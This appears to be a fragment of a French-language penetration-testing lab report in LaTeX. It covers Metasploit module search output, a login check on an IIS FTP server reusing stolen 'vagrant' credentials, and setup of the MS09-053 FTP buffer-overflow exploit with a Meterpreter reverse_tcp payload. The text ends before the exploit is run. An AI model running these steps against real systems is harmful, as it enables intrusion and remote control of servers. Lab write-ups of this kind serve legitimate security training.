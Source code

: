 \documentclass[a4paper]{article}
\begin{document}
\begin{enumerate}
\begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
#  Name                                           Rank    Check
-  ----                                           ----    -----
0  auxiliary/dos/windows/ftp/iis75_ftpd_iac_bof   normal  No
1  auxiliary/dos/windows/ftp/iis_list_exhaustion  normal  No
2  exploit/windows/ftp/ms09_053_ftpd_nlst         great   No
\end{Verbatim}
        \textbf{Note}: certaines informations ont été enlevées pour que tout rentre dans la largeur de la page.
    \end{example}
    \item J'aimerais bien travailler avec le troisième module car c'est le seul exploit. Cet exploit utilise un buffer overflow dans le FTP IIS Pour l'utiliser, il faut avoir des droits en écriture sur le serveur. Je vais donc essayer d'obtenir les informations de login avec une attaque par force brute en commançant avec le login et le mot de passe que j'ai obtenu en attaquant WinRM.
    \begin{example}
        Commandes utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize use auxiliary/scanner/ftp/ftp\_login}
            \item \texttt{\footnotesize set USERNAME administrator}
            \item \texttt{\footnotesize set PASSWORD vagrant}
            \item \texttt{\footnotesize run}
        \end{itemize}
        C'est un \textcolor{blue}{\textbf{succès}}, cet identifiant peut se connecter au serveur ftp.
    \end{example}
    \item Maintenant, je vais utiliser le seul exploit disponible dont j'ai parlé précédemment.
    \begin{example}
        Commande utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize use exploit/windows/ftp/ms09\_053\_ftpd\_nlst}
            \item \texttt{\footnotesize set RHOSTS 192.168.1.4}
            \item \texttt{\footnotesize set LHOST 192.168.1.3}
            \item \texttt{\footnotesize set FTPUSER administrator}
            \item \texttt{\footnotesize set FTPPASS vagrant}
            \item \texttt{\footnotesize set payload windows/meterpreter/reverse\_tcp}

\end{itemize}
\end{example}
\end{enumerate}
\end{document}
